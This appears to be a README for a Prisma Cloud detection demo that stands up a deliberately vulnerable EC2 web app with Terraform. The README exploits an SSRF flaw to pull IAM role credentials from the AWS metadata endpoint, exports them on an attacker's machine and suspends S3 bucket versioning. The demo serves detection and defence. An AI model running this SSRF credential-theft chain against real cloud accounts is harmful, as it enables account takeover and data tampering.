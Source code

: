 # Demo for the detection of role credential compromise

## Introduction
In this demo, we will exploit a Server Side Request Forgery (SSRF) vulnerability
in a web application to extract the credentials of the EC2 instance where the 
application is running. The application will inadvertently contact the AWS 
metadata service to extract the credentials.

## Requirements
To run this demo, we need the following:
1. An AWS account onboarded to a Prisma Cloud stack
2. A user account (or IDP account) with enough permissions to do operations
such as running instances, creating roles and policies and passing roles
3. Terraform installed locally. Here are the steps for Mac:
```
 brew update
 brew tap hashicorp/tap
 brew install hashicorp/tap/terraform
```

## Steps to create the demo scenario
1. Go to the `terraform` directory 
2. Open the file ``variables.tf``
3. Change the value for all variables
4. run ``terraform init``
5. run ``terraform plan``. Make sure there are no errors at the end
6. run ``terraform apply``. Make sure there are no errors at the end
7. Go to http://<ec2_ip_address>/?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/<ec2_role>

## Steps to complete the demo
8. Copy the `AccessKeyId`, `SecretAccessKey` and `Token` into environment 
variables in the attacker's machine:
```shell
export AWS_ACCESS_KEY_ID=...
export export AWS_SECRET_ACCESS_KEY=...
export AWS_SESSION_TOKEN=...
```
9. Run a command from the attacker's machine. For example:
```shell
aws s3api put-bucket-versioning --bucket <bucket_name> --versioning-configuration Status=Suspended
```
